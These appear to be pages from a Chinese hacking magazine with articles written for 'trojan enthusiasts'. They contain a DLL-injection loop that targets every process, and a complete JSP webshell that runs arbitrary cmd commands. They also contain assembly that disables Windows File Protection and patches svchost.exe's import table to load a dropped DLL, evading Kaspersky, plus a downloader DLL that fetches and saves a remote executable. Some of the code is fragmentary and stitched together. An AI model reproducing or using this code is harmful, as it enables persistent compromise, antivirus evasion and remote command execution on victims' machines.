这个 DLL 文件也是用 detours 库写的，所以省略的部分大家可以看 ProcMon 部分的介绍。这里同时对 CreateFileA 和 CreateFileW 两个进行 Hook，代码如下。

```cpp
void WriteLog(TCHAR ch[])
DetourCreateFileA
DetourCreateFileW
```

也就是把得到的文件名记录到本地文件，代码如下。

```cpp
LPCTSTR record_lpFileName;
record_lpFileName = lpFileName;
WriteLog((char *)record_lpFileName);
```

```cpp
// (2) list process 并且插入
HANDLE hkernel32; // 被注入进程的句柄
HANDLE hSnap;
PROCESSENTRY32 pe;
BOOL bNext;
pe.dwSize = sizeof(pe);
hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
bNext = Process32First(hSnap, &pe);
while (bNext) {
    if (pe.th32ProcessID != 0 || pe.th32ProcessID != 4) {
        hkernel32 = OpenProcess(PROCESS_CREATE_THREAD|PROCESS_VM_WRITE|PROCESS_VM_OPERATION, 1, pe.th32ProcessID);
        InjectDll(system_path, pe.th32ProcessID);
        InjectDll(system_path1, pe.th32ProcessID);
    }
}
```

```cpp
OutputDebugString((char *)record_lpFileName);

HANDLE ret;
ret = Real_CreateFileA(lpFileName,
dwDesiredAccess, dwShareMode, lpSecurityAttributes,
dwCreationDisposition, dwFlagsAndAttributes, hTemplateFile);
return ret;

//////////////////////////////
// 记录函数
//////////////////////////////

void WriteLog(TCHAR ch[])
{
    DWORD dwsize = 0;
    char str[256] = "";
    strcat(str, ch);

    HANDLE hFile = Real_CreateFileA("c:\\createfile.log",
    GENERIC_WRITE|GENERIC_READ, FILE_SHARE_WRITE,
    NULL, OPEN_ALWAYS,
    FILE_ATTRIBUTE_NORMAL|FILE_FLAG_WRITE_THROUGH/*FILE_FLAG_OVERLAPPED*/, 0);
}
```

```cpp
// 这里调用的时候，一定要是真正的 CreateFileA 函数，否则会造成死循环
if (hFile != INVALID_HANDLE_VALUE)
{
    SetFilePointer(hFile, 0, 0, FILE_END);
    WriteFile(hFile, /*(LPCVOID)*/str, strlen(str)+1, &dwsize, FALSE);
    WriteFile(hFile, (LPCVOID)("\r\n"), sizeof("\r\n")+1, &dwsize, FALSE);
}
CloseHandle(hFile);
```

经过上面的过程，文件监控的开发就算完成了，但还有很多事情要做。工作了这么长时间，给我的感觉是，开发不是很难，但是维护很困难。客户的要求一个跟着一个地变，他们不懂程序，所以很多事情可以没有约束地去想、去提要求，但是作为开发人员就很郁闷了。好了，发牢骚的话就不多说了，只是给想进入程序员行列的兄弟们说说心里话。

适合读者：编程爱好者、木马爱好者  
前置知识：Java、JSP

## JSP--Java

## 编程与木马技术

文/图 荔明奇(xgym)

Java 编程在上个世纪的时候在国内基本上不太多，现在再看看，安全系数要求非常高的银行、政府网站，基本上都采用了 J2EE+JSP+Oracle/DB2/Informix+Unix 来构建。JSP 用于产生动态网页内容，具备 Java 的优点：一次编写，到处执行。Java 可以最大限度地释放网络的能量，基本上可以实现软件不经修改即可在多种不同的系统上运行。Java（不仅仅是语言，更是一种平台）不论是在台式机、服务器还是消费电子产品中，只要有浏览器，就可以顺利运行。用 Java 编写的软件是通过 Java 虚拟机来运行的，而不是直接运行在某种特定的操作系统之上，任何安装了 Java 虚拟机的计算设备都可以运行。

Java 语言编写的软件，与这个计算设备的生产厂商毫无关系。Java 平台其实是一个纯软件平台，可以运行在其他硬件平台之上。Java 在标准化、兼容性和创新性方面都是非常优秀的。总而言之，Java 确实是优秀的，下面我们就来简要地谈谈 Java/JSP 编程以及木马技术。

首先我要说，Java 是相当安全的语言，JVM（Java 虚拟机）也是相当安全的，因此要用 Java 编写病毒或者木马等程序几乎不现实，而且即便是写出了病毒或者木马，如果没有 JVM 也是不可以运行的，何况编译出来的程序体积比较大，所以基本上没有人用 Java 来编写木马。Java 没有指针，所以非常适合开发大型的服务器端程序。网页木马倒是比较好实现，它其实就是 JSP 木马。OK，我们先来看一个简单的 Java 程序吧。在测试这些程序之前，请到 SUN 公司网站上下载 J2SDK 或更高版本；其次是环境变量的配置（可以到相关网站上下载教程，这里默认大家已经配置好了环境变量）。如下面的一个小程序 `ExecuteCmd.java`，其功能是实现执行文件，具体代码如下所示。

这个程序非常简单，大家还可以写个客户端与服务端交互传输，或者实现 Telnet 功能的 Java 程序。不过这些程序都已经有了，相信学习 Java 的人都会去看《Java 编程思想》这本书（呵呵，好像成了学习 Java 的必经之路，毕竟是超级经典呀），其中已经有类似功能的网络编程了，一定要去看看哦。

下面我们再介绍一个小小的 JSP 木马实现。时下 JSP 网站多了起来，毕竟 JSP 的安全和功能都是非常惊人的强大。如果大家想在毕业后拿到非常高的薪水，JSP、Java、Unix 以及 DB2、Oracle、Informix 数据库可要好好钻研一下（这也有片面性，无论哪门语言，只要你足够精通都一样啦）。好了，我们看个非常小的 `shell.jsp` 吧，其功能仅仅是在网页上执行 cmd（对于黑友们足够啦），具体代码如下所示。

```java
// import 引入我们需要的类或者包名称，这和 C++ 中的 include、Delphi 中的 use 是一样的
import java.io.IOException;

/**
 * <p>Title: cmd命令测试</p>
 * <p>Description: </p>
 * <p>Copyright: Copyright (c) 2006</p>
 * <p>Company: xgym</p>
 * @author 葛明奇(xgym)
 * @version 1.0
 */
public class ExecuteCmd {
    // 我们的类文件名称是 ExecuteCmd
    public ExecuteCmd() {
        // ExecuteCmd 方法，类似 C++ 中的构造函数
    }

    public static void main(String[] args) {
        // Java 的主函数，相当于 C++ 中的 main 函数
        try {
            Runtime rt = Runtime.getRuntime();
            rt.exec("cmd /c D:\\web\\mfc.exe");
        } catch (IOException ex) {
            ex.printStackTrace();
        }
    }
}
```

```jsp
<!-- 实现 cmd 功能的 JSP 小木马（作者：葛明奇(xgym)） -->
<%@ page contentType="text/html;charset=gb2312"%>
<%@ page import="java.io.*" %>
<%
    String strCmd_in = request.getParameter("cmd");
    String myLine = "";
    StringBuffer strBufCmd = new StringBuffer("");
    if (strCmd_in != null) {
        try {
            Process pro = Runtime.getRuntime().exec("cmd /c " + strCmd_in);
            BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));
            while ((myLine = buf.readLine()) != null) {
                // 读取并拼接输出
                strBufCmd.append(myLine + "\n\n");
            }
        } catch (Exception e) {
            // 如果发生异常就打印出来
            System.out.println(e.toString());
        }
    } else {
        // 默认为我们的输入框中的命令
        strCmd_in = "net user";
    }
%>

<form name="cmd" action="" method="post">
<input type="text" name="cmd" value="<%=strCmd_in%>" size=50>
<input type=submit name=submit value="执行命令">
</form>

<TEXTAREA NAME="MyView" ROWS="20" COLS="100%"><%=strBufCmd.toString()%></TEXTAREA>
```

OK，这就是我们的第一个木马程序了，大家完全可以借助 JBuilder 把它打包成为一个 exe 文件（不过 exe 文件比较大）。我们把这个程序保存为 `ExecuteCmd.java` 并编译一下，命令为“javac ExecuteCmd.java”，编译完成以后运行一下，命令为“java ExecuteCmd”。呵呵，mfc.exe 的界面出来了。


图1



图2


图3

我们把这些代码复制下来保存为 `shell.jsp` 就可以使用了。测试的时候，可以先去下载一个支持 JSP 的 Tomcat Web 服务器。在启动了 Tomcat 服务之后，我们把 `shell.jsp` 复制到 `C:\Program Files\Apache Software Foundation\Tomcat 5.0\webapps\ROOT` 里，就是 Tomcat 所在的目录了；然后再访问 `http://127.0.0.1:8080/shell.jsp` 即可。注意前提是端口为默认 8080，并且 Java 虚拟机路径配置正确。运行后的结果如图1所示，点击执行命令之后的结果如图2所示；在命令框中输入 `dir c:` 后，返回结果如图3所示。总之，我们可以在其中运行 CMD 中的大部分命令，挺好玩的吧？

下面我们再看一下 Java 与数据库之间的简单程序。先介绍一个最简单的 Java 与数据库操作程序 `jdbc.java`，数据库为 Informix，表名为 `crd_zcfzb`，表中的字段是 `pk1`、`zc` 和 `fz`。

```java
import java.sql.Connection;
import java.sql.ResultSet;
import java.sql.DriverManager;
import java.sql.Statement;

/* ... author ... version 1.0 */
public class jdbc {
    public jdbc() {}

    public static void main(String[] args) {
        // 初始化连接为 null
        Connection conn = null;
        String result = null;
        try {
            // 设置驱动，如果你的数据库是 informix
            Class.forName("com.informix.jdbc.IfxDriver").newInstance();

            /* 如果你的数据库是 Oracle，则换成
            Class.forName("oracle.jdbc.driver.OracleDriver").newInstance();
            ...（数据库驱动与 url 配置示例）
            */

            String url = "jdbc:informix-sqli://192.168.20.144:9999/easyplats_stix:INFORMIXSERVER=online;user=easymis;password=easymis";

            conn = DriverManager.getConnection(url);
            Statement stmt = conn.createStatement();
            String sql = "select pk1, zc, fz from crd_zcfzb where zc = 20000000";
            ResultSet rs = null;
            rs = stmt.executeQuery(sql);
            if (rs != null && rs.next()) {
                result = rs.getString(3);
            }
            System.out.println("结果集合是" + rs);
            System.out.println("执行结果是" + result);
            rs.close();
            stmt.close();
            conn.close();

        } catch (Exception e) {
            System.out.println("出错了");
        }
        System.out.println("Hello World!");
    }
}
```

以上程序仅仅实现了对结果集的操作，测试结果集并打印出结果集某个字段的值……在数据库编程中，Collection 和 Map 是必须用到的，我们如果是做底层工作的，就必须对这些非常熟悉和精通。下面我就把上面的程序封装成我们最需要的 Collection 或者 Map 存放方式，具体代码如下所示。

```java
// 得到结果集
rs = stmt.executeQuery(sql);

// 定义一个 Collection
Collection coll = new LinkedList();

while (rs.next()) {
    // 定义 map
    Map map = new HashMap();
    for (int i = 0; i < cn.length; i++) {
        String tmp = rs.getString(cn[i]);
        map.put(cn[i], tmp);
    }
    coll.add(map);
}

Iterator it = coll.iterator();
while (it.hasNext()) {
    Map map_it = (Map) it.next();
    String zc = map_it.get("zc").toString();
    String fz = map_it.get("fz").toString();
    String pk1 = map_it.get("pk1").toString();
}
```

通过上面的代码，我们就可以顺利地对一些复杂数据进行特殊处理了。其实 Java 真的非常强大，不仅是数据库和 Web 方面……最后，我预祝大家在 Java 的道路上越走越宽！

#### 修改引入表打造穿透

Socket 作为目前公认最强的个人安全套装产品，KIS6 所采用的 Undocumented 技术和主动防御技术，使得很多木马无法顺利穿越，失去了可利用的价值。关于如何穿越 KIS6，目前在网上也形成了一片讨论热潮，针对 KIS6 的弱点，提出了各种行之有效的方法。众所周知，由于 KIS6 的固有弱点，它在监控采用远程线程代码注入的行为时，只会对注入 IE 等进程有监控反应，而其防火墙默认的控管规则里却允许 svchost 等进程访问 HTTP 等端口，那么木马只要用远程线程的方法注入 svchost 等进程，就能逃过 KIS6 了，而下文作者就采用了这一思路，通过修改 PE 文件的引入表，成功地穿越了 KIS6 的防御网！

- 适合读者：编程爱好者、木马爱好者
- 前置知识：汇编语言基础、PE 结构基础

*KIS6 的下载者*


文/图 狐烟逐云【江苏大学信息安全系】

在 06 年第 4 期的黑防杂志上有一篇文章《把任意可执行文件作为木马载体》，文中介绍了通过给可执行文件添加一个新节并修改程序入口点的方法来加载我们的木马 DLL，此方法具有明显的病毒行为特征，卡巴会将其识别为新的 Win32 病毒。根据我的理解，凡是入口点不是指向代码节的它都会报有毒。

KIS 是防火墙与杀毒软件等传统安全产品的超集，利用行为加特征码来防范恶意软件，所以以往普遍使用的诸如 CreateRemoteThread、SetThreadContext、SetWindowHook 以及通过 Appinit_Dlls 等注册表键值来进行代码注入的行为都会被 KIS 所拦截，而且可信进程的可疑网络行为也会被警告，如 IE 浏览器访问一些非 Web 端口。Windows 系统服务分为独立进程和共享进程两种，在 Windows NT 时只有服务器管理器 SCM（Services.exe）有多个共享服务。随着系统内置服务的增加，从 Windows 2000 开始，微软又把很多服务做成了共享方式，由 svchost.exe 启动。svchost 作为 NT 平台网络服务的载体，是唯一一个在 KIS 下拥有完全访问网络权限的程序，假如能让它加载我们的 DLL，那么就可以轻松穿透 KIS 这堵铁墙了。修改 svchost 的引入表就能达到这个目的，前段时间的一个后门“黑客之门”就是通过这种方式自启动的。修改 EXE 文件的引入表需要读者对 PE 文件结构有一定了解，那么何为引入表呢？每个 PE 文件都有引入表，svchost 的引入表如图1所示，每个引入的 DLL 都会用一个 IMAGE_IMPORT_DESCRIPTOR 表示，该结构定义如下：

```asm
IMAGE_IMPORT_DESCRIPTOR STRUCT
  union
    Characteristics dd ?
    OriginalFirstThunk dd ?
  ends
  TimeDateStamp dd ?
  ForwarderChain dd ?
  Name1 dd ?
  FirstThunk dd ?
IMAGE_IMPORT_DESCRIPTOR ENDS
```



图1

对照着图片大家应该很容易明白，修改后的引入表如图2所示。这样，系统重启后，svchost 就会默认加载我们的 sec.dll 文件，于是强大的卡巴斯基就倒在了我们的脚下。

其实，像“黑客之门”一样修改引入表实现自启动非常简单，其方法有两种：一种是利用微软提供的 Detour 库实现，另外一种就是自己实现。我比较推荐第一种，但是抱着学习的目的，我们还是得练练手，代码我已经用纯 ASM 实现了一个简单的下载者，仅供大家参考。下面概括地说一下实现过程：

- 1) 定位目标原引入表，将其读出；
- 2) 增加一个新节；
- 3) 将被我们修改过的引入表写入新节；
- 4) 将目标的引入表地址指向新节。

这其中有个问题需要澄清一下。增加一个新节会使目标的文件大小改变；要文件大小不变也可以，只要找到足够大的空隙，然后写入新引入表即可。下面的代码以 Windows XP 下的 svchost 作为例子，所以无法插入空隙。修改使文件大小不改变的工作，就留给各位读者当个作业吧。



图2

```asm
.386
.model flat,stdcall
option casemap:none

; include
include windows.inc
include kernel32.inc
includelib kernel32.lib
include advapi32.inc
includelib advapi32.lib

; 数据段
.data
dwWriten dd 0
zero dd 0
dllname db 'scc.dll',0
funpara db 0,0,'SecConfig',0
PE_Header IMAGE_NT_HEADERS <>
My_Section IMAGE_SECTION_HEADER <>
My_Dll IMAGE_IMPORT_DESCRIPTOR <>
My_DllName IMAGE_IMPORT_BY_NAME <>

.const
Head_Len equ sizeof IMAGE_NT_HEADERS + sizeof IMAGE_SECTION_HEADER

; 宏
CTEXT MACRO y:VARARG
    LOCAL sym
    ; ...
ENDM

CONST segment
ifidni <y>,<>
    sym db 0
else
    sym db y,0
endif
CONST ends
exitm <offset sym>
ENDM

.code
include disablewfp.asm
start:
    call _Sfcoff      ; 关闭文件保护
    call CreateDll
    call SetFile
    call Modinport    ; 改写PE文件引入表
exit:
    invoke ExitProcess,NULL

; 对目标文件进行更名
SetFile proc
    local destpath[255]:BYTE
    local tmppath[255]:BYTE
    invoke RtlZeroMemory,addr destpath,255
    invoke RtlZeroMemory,addr tmppath,255
    invoke GetSystemDirectory,addr destpath,255
    invoke GetSystemDirectory,addr tmppath,255
    invoke lstrcat,addr destpath,CTEXT("\\svchost.exe")
    invoke lstrcat,addr tmppath,CTEXT("\\suchost.exe")
    invoke MoveFile,addr destpath,addr tmppath
    invoke CopyFile,addr tmppath,addr destpath,FALSE
    ret
SetFile endp

; RVA 转换成磁盘文件中的偏移
RVAToOffset PROC uses edi esi edx ecx pFileMap:DWORD,RVA:DWORD
    mov esi,pFileMap
    assume esi:ptr IMAGE_DOS_HEADER
    add esi,[esi].e_lfanew
    assume esi:ptr IMAGE_NT_HEADERS
    mov edi,RVA
    mov edx,esi
    add edx,sizeof IMAGE_NT_HEADERS
    mov cx,[esi].FileHeader.NumberOfSections
    movzx ecx,cx
    assume edx:ptr IMAGE_SECTION_HEADER
    .while ecx>0
        .if edi>[edx].VirtualAddress
            mov eax,[edx].VirtualAddress
            add eax,[edx].SizeOfRawData
            .if edi<eax
                mov eax,[edx].VirtualAddress
                sub edi,eax
                ; ...
            .endif
        .endif
        ; ...
    .endw
```

## Modimport 过程相关代码

```asm
asm
mov eax,[edx].PointerToRawData
add eax,edi ; eax == file offset
ret
.endif
.endif
add edx,sizeof IMAGE_SECTION_HEADER
dec ecx
.endw
assume edx:nothing
assume esi:nothing
mov eax,edi
ret
RVAToOffset endp

Modimport proc
local szpath[255]:BYTE
LOCAL hFile: HANDLE
LOCAL dwPE_Header_OffSet: DWORD
LOCAL dwFileReadWritten: DWORD
LOCAL dwMySectionOffSet: DWORD
LOCAL dwLastSection_SizeOfRawData: DWORD
LOCAL dwLastSection_PointerToRawData: DWORD
LOCAL hMapping: DWORD
LOCAL pMapping: DWORD
LOCAL oImport[520]:BYTE
LOCAL oImportlen
LOCAL Characteristics
LOCAL dllnamelen:DWORD
LOCAL funparalen:DWORD
LOCAL irva:DWORD

invoke RtlZeroMemory,addr oImport,520
invoke RtlZeroMemory,addr szpath,255
invoke lstrcat,addr szpath,CTEXT("test.exe")
; 打开文件
invoke CreateFile,addr szpath,GENERIC_READ or GENERIC_WRITE,\
FILE_SHARE_READ or FILE_SHARE_WRITE,NULL,OPEN_EXISTING,FILE_ATTRIBUTE_NORMAL,NULL
.if eax == INVALID_HANDLE_VALUE
    jmp Err_CreateFile_Exit
.endif
mov hFile, eax
; 创建内存映射文件
invoke CreateFileMapping,hFile,NULL,PAGE_READONLY,0,0,0
.if eax!=NULL
    mov hMapping,eax
.endif
invoke MapViewOfFile,hMapping,FILE_MAP_READ,0,0,0
.if eax!=NULL
    mov pMapping,eax
.endif

;***********************
; 读取PE文件头
;***********************
invoke SetFilePointer,hFile,3Ch,0,FILE_BEGIN
invoke ReadFile,hFile,addr dwPE_Header_OffSet,4,addr dwFileReadWritten,NULL

invoke SetFilePointer,hFile,dwPE_Header_OffSet,0,FILE_BEGIN
invoke ReadFile,hFile,addr PE_Header,Head_Len,addr dwFileReadWritten,NULL

;***************************
; PE 文件有效性检查
;***************************
.if [PE_Header.Signature] != IMAGE_NT_SIGNATURE
    jmp Exit
.endif

;***************************
; 判断是否有足够空间存储新节
;***************************
movzx eax,[PE_Header.FileHeader.NumberOfSections]
mov ecx,28h
mul ecx
add eax,dwPE_Header_OffSet
add eax,18h
movzx ecx,[PE_Header.FileHeader.SizeOfOptionalHeader]
add eax,ecx
add eax,28h
.if eax > [PE_Header.OptionalHeader.SizeOfHeaders]
    jmp Exit
.endif

;***********************************************
; 计算新节的偏移地址：
;***********************************************
movzx eax,[PE_Header.FileHeader.NumberOfSections]
mov ecx,28h
mul ecx
add eax,4h
add eax,dwPE_Header_OffSet
add eax,sizeof IMAGE_FILE_HEADER
add eax,sizeof IMAGE_OPTIONAL_HEADER
mov dwMySectionOffSet, eax

push [PE_Header.OptionalHeader.SizeOfImage]
pop [My_Section.VirtualAddress]

;***********************************************
; 重构引入表，在文件的最后写入我们的新节
;***********************************************
; 读取原始引入表数据，读取正确的不带0的引入表
mov edi,[PE_Header.OptionalHeader.DataDirectory[sizeof IMAGE_DATA_DIRECTORY].VirtualAddress]
invoke RVAToOffset,pMapping,edi
mov edi,eax

invoke SetFilePointer, hFile, edi, 0, FILE_BEGIN
; 不读空的结束符
mov oImportlen,0
lea edi,oImport
calclen:
    invoke ReadFile, hFile, edi, 4, addr dwFileReadWritten, NULL
    mov ebx,[edi]
    test ebx,ebx
    jz calcover
    add edi,4
    add oImportlen,4
    jmp calclen
calcover:

; 写入dll名称，定位到最后一节的raw offset处
mov eax, dwMySectionOffSet
sub eax, 18h
invoke SetFilePointer, hFile, eax, 0, FILE_BEGIN
invoke ReadFile, hFile, addr dwLastSection_SizeOfRawData, 4, addr dwFileReadWritten, NULL
invoke ReadFile, hFile, addr dwLastSection_PointerToRawData, 4, addr dwFileReadWritten, NULL
mov ebx, dwLastSection_SizeOfRawData
add ebx, dwLastSection_PointerToRawData
invoke SetFilePointer, hFile, ebx, 0, FILE_BEGIN
...
; 写入IMAGE_THUNK_DATA
push 0
lea eax, dwFileReadWritten
push eax
mov eax,sizeof funpara
mov funparalen,eax
push eax
lea eax, funpara
push eax
push hFile
call WriteFile

; 写入IMAGE_THUNK_DATA的RVA
mov eax,[My_Section.VirtualAddress]
add eax,dllnamelen
mov irva,eax
invoke WriteFile, hFile, addr irva, 4, addr dwFileReadWritten, NULL

; 写入一个空IMAGE_THUNK_DATA的RVA作为结尾
invoke WriteFile, hFile, addr zero, 4, addr dwFileReadWritten, NULL
; 写入原引入表数据
mov ecx,oImportlen
invoke WriteFile, hFile, addr oImport, ecx, addr dwFileReadWritten, NULL

; 构造新引入的DLL的IMAGE_IMPORT_DESCRIPTOR
mov eax,[My_Section.VirtualAddress]
add eax,dllnamelen
add eax,funparalen
mov [My_Dll.OriginalFirstThunk],eax
mov [My_Dll.TimeDateStamp],0FFFFFFFFh
mov [My_Dll.ForwarderChain],0FFFFFFFFh
mov ebx,[My_Section.VirtualAddress]
mov [My_Dll.Name1],ebx
mov [My_Dll.FirstThunk],eax

; 写入新引入的DLL的IMAGE_IMPORT_DESCRIPTOR
invoke WriteFile, hFile, addr My_Dll, 20, addr dwFileReadWritten, NULL

; 写入0以结束的空IMAGE_IMPORT_DESCRIPTOR
push 20
pop ecx
fillzero:
    push ecx
    invoke WriteFile, hFile, addr zero, 1, addr dwFileReadWritten, NULL
    pop ecx
    dec ecx
    test ecx,ecx
    jnz fillzero

; 填充我们自己的节的信息
mov dword ptr [My_Section.Name], ".ler"
mov dword ptr [My_Section.Name+4], "co"
mov [My_Section.Misc.VirtualSize], 1000h
push [PE_Header.OptionalHeader.SizeOfImage]
pop [My_Section.VirtualAddress]
...
mov [My_Section.SizeOfRawData], eax

; SizeOfRawData 在EXE文件中是对齐到FileAlignment的整数倍的值
mov eax, dwMySectionOffSet
sub eax, 18h
invoke SetFilePointer, hFile, eax, 0, FILE_BEGIN
invoke ReadFile, hFile, addr dwLastSection_SizeOfRawData, 4, addr dwFileReadWritten, NULL
invoke ReadFile, hFile, addr dwLastSection_PointerToRawData, 4, addr dwFileReadWritten, NULL

; SizeOfRawData + PointerToRawData
mov eax, dwLastSection_SizeOfRawData
add eax, dwLastSection_PointerToRawData
mov [My_Section.PointerToRawData], eax
mov [My_Section.PointerToRelocations], 0h
mov [My_Section.PointerToLinenumbers], 0h
mov [My_Section.NumberOfRelocations], 0h
mov [My_Section.NumberOfLinenumbers], 0h
mov [My_Section.Characteristics], 0C0000040h
; 可读可写
...
; 重新写入 IMAGE_SECTION_HEADER，包含了新节的信息
invoke SetFilePointer, hFile, dwMySectionOffSet, 0, FILE_BEGIN
invoke WriteFile, hFile, addr My_Section, sizeof IMAGE_SECTION_HEADER, addr dwFileReadWritten, NULL
...
; 改写 IMAGE_NT_HEADERS
; 需要改写 SizeOfImage
inc [PE_Header.FileHeader.NumberOfSections]
mov eax, [My_Section.VirtualAddress]
add eax, dllnamelen
add eax, funparalen
add eax, 8
mov [PE_Header.OptionalHeader.DataDirectory[(sizeof IMAGE_DATA_DIRECTORY)].VirtualAddress], eax
mov eax, [My_Section.Misc.VirtualSize]
mov ecx, [PE_Header.OptionalHeader.SectionAlignment]
cdq
div ecx
inc eax
mul ecx
add eax, [PE_Header.OptionalHeader.SizeOfImage]
mov [PE_Header.OptionalHeader.DataDirectory[(sizeof IMAGE_DATA_DIRECTORY)*11].VirtualAddress], 0
mov [PE_Header.OptionalHeader.DataDirectory[(sizeof IMAGE_DATA_DIRECTORY)*11].Size], 0
mov [PE_Header.OptionalHeader.DataDirectory[(sizeof IMAGE_DATA_DIRECTORY)*12].VirtualAddress], 0
mov [PE_Header.OptionalHeader.DataDirectory[(sizeof IMAGE_DATA_DIRECTORY)*12].Size], 0
sub eax,1000h
mov [PE_Header.OptionalHeader.SizeOfImage], eax
; SizeOfImage 是一个对齐到 SectionAlignment 的整数倍
invoke SetFilePointer, hFile, dwPE_Header_OffSet, 0, FILE_BEGIN
invoke WriteFile, hFile, addr PE_Header, sizeof IMAGE_NT_HEADERS, addr dwFileReadWritten, NULL
; 改写 .text 属性为 E0000020h
mov eax, dwPE_Header_OffSet
add eax, sizeof IMAGE_FILE_HEADER
add eax, sizeof IMAGE_OPTIONAL_HEADER
add eax,40  ; 定位到 Characteristics 0E0000020h
invoke SetFilePointer, hFile, eax, 0, FILE_BEGIN
push NULL
lea eax, dwFileReadWritten
push eax
push 4
mov Characteristics,0E0000020h
lea eax, Characteristics
push eax
push hFile
call WriteFile

Exit:
; 关闭文件
invoke UnmapViewOfFile, pMapping
invoke CloseHandle,hMapping
invoke CloseHandle, hFile
Err_CreateFile_Exit:
ret

Modimport endp
```

##### 释放 DLL 至系统目录

```asm
>>>>>>>>>>>>>>>>>>>>
; 释放 DLL 至系统目录
>>>>>>>>>>>>>>>>>>>>
CreateDll proc
local hResInfo:HRSRC
local hResData:HGLOBAL
local dwSize:DWORD
local dwWritten:DWORD
local hFile:HANDLE
local hRec:HANDLE
local dllpath[255]:BYTE
invoke RtlZeroMemory,addr dllpath,255
invoke GetSystemDirectory,addr dllpath,255
invoke lstrcat,addr dllpath,CTEXT("\\sec.dll")
invoke FindResource,0,1001,CTEXT("DLL")
mov hResInfo,eax
invoke SizeofResource,0,hResInfo
mov dwSize,eax
invoke LoadResource,0,hResInfo
mov hResData,eax
invoke CreateFile,addr dllpath, GENERIC_WRITE,0, NULL,CREATE_ALWAYS,0,NULL
mov hFile,eax
invoke LockResource,hResData
mov hRec,eax
invoke WriteFile,hFile,hRec,dwSize,addr dwWritten,0
invoke CloseHandle,hFile
ret
CreateDll endp
end start
```

## DLL实现下载并执行功能的代码如下

```asm
.386
.model flat, stdcall
option casemap :none ; case sensitive
include windows.inc
include kernel32.inc
```

```asm
includelib kernel32.lib

down proto
return MACRO arg
    mov eax, arg
    ret
ENDM

CTEXT MACRO y:VARARG
LOCAL sym
...
ENDM

.data
szURL db 'http://127.0.0.1/gyzy.exe',0,...
szPath db 'c:\a.exe',0

.code
LibMain proc hInstDLL:DWORD, reason:DWORD, unused:DWORD
    .if reason == DLL_PROCESS_ATTACH
        invoke CreateThread,0,0,offset down,0,0,0
        return TRUE
    .elseif reason == DLL_PROCESS_DETACH
    .elseif reason == DLL_THREAD_ATTACH
    .elseif reason == DLL_THREAD_DETACH
    .endif
    ret
LibMain Endp

down proc
    local downfunc:DWORD
    call loadlib
    lib db 'urlmon',0
loadlib:
    call LoadLibraryA
    call getfuncaddr
    func db 'URLDownloadToFileA',0
